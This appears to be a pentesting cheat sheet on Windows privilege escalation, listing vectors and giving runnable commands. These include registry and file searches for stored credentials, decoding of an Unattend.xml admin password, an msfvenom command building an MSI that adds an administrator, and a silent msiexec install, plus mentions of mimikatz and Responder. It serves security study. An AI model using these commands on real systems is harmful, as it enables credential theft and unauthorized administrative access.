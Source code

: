                                                       Windows priv escalation
#Common Windows Privilege Escalation Vectors

1)Stored Credentials

2)Windows Kernel Exploit

3)DLL Injection

4)Unattended Answer File

5)Insecure File/Folder Permissions

6)Insecure Service Permissions

7)DLL Hijacking

8)Group Policy Preferences

9)Unquoted Service Path

10)Always Install Elevated

11)Token Manipulation

12)Insecure Registry Permissions

13)Autologon User Credential

14)User Account Control (UAC) Bypass

15)Insecure Named Pipes Permissions

--------------------------------Links and commands-------------------------------

1)->Windows Unquoted Service Paths
Basically, it is a vulnerability that occurs if a service executable path is not enclosed with quotation marks and contains space.
To identify these unquoted services you can run this command on Windows Command Shell:
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
https://medium.com/@harshaunsingh/windows-privileged-escalation-manual-and-using-metasploit-framework-ch-1-fd5f31a7db86

------------------------------------------------------------------------------------------

2)->Unattended Installs

Unattended Installs allow for the deployment of Windows with little-to-no active involvement from an administrator.  This solution is ideal in larger organizations where it would be too labor and time-intensive to perform wide-scale deployments manually.  If administrators fail to clean up after this process, an EXtensible Markup Language (XML) file called Unattend is left on the local system.  This file contains all the configuration settings that were set during the installation process, some of which can include the configuration of local accounts, to include Administrator accounts!

While it’s a good idea to search the entire drive, Unattend files are likely to be found within the following folders:

C:\Windows\Panther\
C:\Windows\Panther\Unattend\
C:\Windows\System32\
C:\Windows\System32\sysprep\
Note: In addition to Unattend.xml files, be on the lookout for sysprep.xml and sysprep.inf files on the file system.  These files can also contain credential information utilizing during deployment of the operating system, allowing us to escalate privileges.  

Once you’ve located an Unattend file, open it up and search for the <UserAccounts> tag.  This section will define the settings for any local accounts (and sometimes even Domain accounts):

<UserAccounts>
    <LocalAccounts>
        <LocalAccount>
            <Password>
                <Value>UEBzc3dvcmQxMjMhUGFzc3dvcmQ=</Value>
                <PlainText>false</PlainText>
            </Password>
            <Description>Local Administrator</Description>
            <DisplayName>Administrator</DisplayName>
            <Group>Administrators</Group>
            <Name>Administrator</Name>
        </LocalAccount>
    </LocalAccounts>
</UserAccounts>
In the snippet of the sample Unattend file above, you can see a local account being created and added to the Administrators group.  The administrator chose not to have the password stored in plaintext; however, it is merely obfuscated with Base64.  As seen below, we can trivially decode it in Kali with the following:

echo "UEBzc3dvcmQxMjMhUGFzc3dvcmQ=" | base64 -d
base64_decode

So, our password is “P@ssword123!Password”?  Not quite…  Microsoft appends “Password” to all passwords within Unattend files before encoding them; therefore, our Local Administrator password is in fact just “P@ssword123!”.

Under the <UserAccounts> section, you may also see <AdministratorPassword> tags, which are another way to configure the Local Administrator account.
 
 --------------------------------------------------------------------------------------------------
  
3)->Raw passwords in registry
#vnc
reg query "HKCU\Software\ORL\WinVNC3\Password"
#Windows autologin
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
#SNMP Paramters
reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP"
#Putty
reg query "HKCU\Software\SimonTatham\PuTTY\Sessions"
#Search for password in registry
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s

---------------------------------------------------------------------------------------------
                                                       
4)->Identify hotfix or patches
systeminfo
#or
wmic qfe get Caption,Description,HotFixID,InstalledOn
post/windows/gather/enum_patches (metasploit module)

-----------------------------------------------------------------------------------

5)->searching for cleartext passwords
findstr /si password *.txt
findstr /si password *.xml
findstr /si password *.ini
#Find all those strings in config files.
dir /s *pass* == *cred* == *vnc* == *.config*
#Find all passwords in all files.
findstr /spin "password" *.*
findstr /spin "password" *.*

--------------------------------------------------------------------------------------
6)->Using always installed elevated configuration
http://www.hackingarticles.in/windows-privilege-escalation-alwaysinstallelevated/
https://toshellandback.com/2015/11/24/ms-priv-esc/

AlwaysInstallElevated is a setting that allows non-privileged users the ability to run Microsoft Windows Installer Package Files (MSI) with elevated (SYSTEM) permissions. However, granting users this ability is a security concern because it is too easy to abuse this privilege.   For this to occur, there are two registry entries that have to be set to the value of “1” on the machine:

[HKEY_CURRENT_USER\SOFTWARE\Policies\Microsoft\Windows\Installer]
“AlwaysInstallElevated”=dword:00000001 

[HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\Installer]
“AlwaysInstallElevated”=dword:00000001
The easiest way to check the values of these two registry entries is to utilize the built-in command line tool, reg query:

reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
Note:  If you happen to get an error message similar to: The system was unable to find the specified registry key or value, it may be that a Group Policy setting for AlwaysInstallElevated was never defined, and therefore an associated registry entry doesn’t exist.

Now that we know AlwaysInstallElevated is enabled for both the local machine and the current user, we can proceed to utilize MSFVenom to generate an MSI file that, when executed on the victim machine, will add a user to the Local Administrators group:

msfvenom -p windows/adduser USER=rottenadmin PASS=P@ssword123! -f msi -o rotten.msi
Once you have our newly created MSI file loaded on the victim, we can leverage a command-line tool within Windows, Msiexec, to covertly (in the background) run the installation:

msiexec /quiet /qn /i C:\Users\Steve.INFERNO\Downloads\rotten.msi
The properties of the switches utilized in the above Msiexec command are below:

/quiet = Suppress any messages to the user during installation
/qn = No GUI
/i = Regular (vs. administrative) installation

Once run, we can check to validate that our account was created and added to the Local Administrator Group:
->net localgroup Administrator
Note: MSI files created with MSFVenom as well as with the always_install_elevated module discussed below, will fail during installation.  This behavior is intentional and meant to prevent the installation being registered with the operating system.

Metasploit Module:  exploit/windows/local/always_install_elevated

As you can see below, this module simply requires that you link it to an existing session prior to running:

----------------------------------------------------------------------------------------
7)->Vulnerable Services

https://toshellandback.com/2015/11/24/ms-priv-esc/

Metasploit Module: exploit/windows/local/service_permissions

When discussing exploitation of Vulnerable Services, there are two objects one can be referring to:

a)Service Binaries
b)Windows Services

The former is very similar to what we did with Trusted Service Paths.  Whereas Trusted Service Paths exploits odd Windows file path interpretation in combination with folder permissions along the service path, Vulnerable Service Executables takes advantage of file/folder permissions pertaining to the actual executable itself.  If the correct permissions are in place, we can simply replace the service executable with a malicious one of our own.

The latter refers to the actual Windows Service and the ability to modify it’s properties. These Services run in the background and are controlled by the Operating System through the Service Control Manager (SCM), which issues commands to and receives updates from all Windows Services.  If we can modify a Service’s binary path (binpath) property, upon a restart of the service, we can have the Service issue a command as SYSTEM on our behalf.  Let’s take a look…

The easiest way to determine which Windows Services have vulnerable privileges is to utilize the AccessChk tool, which is part of the SysInternals Suite.  This group of tools was written for Microsoft by Mark Russinovich to allow for advanced querying, managing and troubleshooting of systems and applications.  While it’s always a good idea to limit the amount of items that you allow to touch disk during a pentesting engagement due to risk of anti-virus detection (among other concerns), since AccessChk is an official and well-known Microsoft tool, the chances of flagging any protective mechanisms on the machine are slim.

Once we have AccessChk downloaded on our target machine, GREED, we can run the following command to determine which Services can be modified by any authenticated user (regardless of privilege level):

accesschk.exe -uwcqv "Authenticated Users" * /accepteula

to check in detail visit https://toshellandback.com/2015/11/24/ms-priv-esc/

------------------------------------------------------------------------------------

8)->mimikatz
extract cleartext passwords from memory

--------------------------------------------------------------------------------------

9)->llmnr/netbios poisining
use RESPONDER(Kali linux)

-------------------------------------------------------------------------------------------------

10)->priv escalation via group policy prefrences
https://www.toshellandback.com/2015/08/30/gpp/

-------------------------------------------------------------------------------------------------

Some more very usefull links

->Using kernel exploits
http://www.hackingarticles.in/windows-kernel-exploit-privilege-escalation/

->Multiple ways to Bypass uac
http://www.hackingarticles.in/multiple-ways-to-bypass-uac-using-metasploit/

->Using automated scripts
https://medium.com/@rahmatnurfauzi/windows-privilege-escalation-scripts-techniques-30fa37bd194

http://www.hackingarticles.in/window-privilege-escalation-via-automated-script/

Includes Sherlock,JAWS,Windows Exploit suggester, Power Up and other automated scripts.


------------------------------Some more resources---------------------------------------------------------------------------------
https://toshellandback.com/2015/11/24/ms-priv-esc/

https://sushant747.gitbooks.io/total-oscp-guide/privilege_escalation_windows.html

https://medium.com/@rahmatnurfauzi/windows-privilege-escalation-scripts-techniques-30fa37bd194

http://www.fuzzysecurity.com/tutorials/16.html

https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md
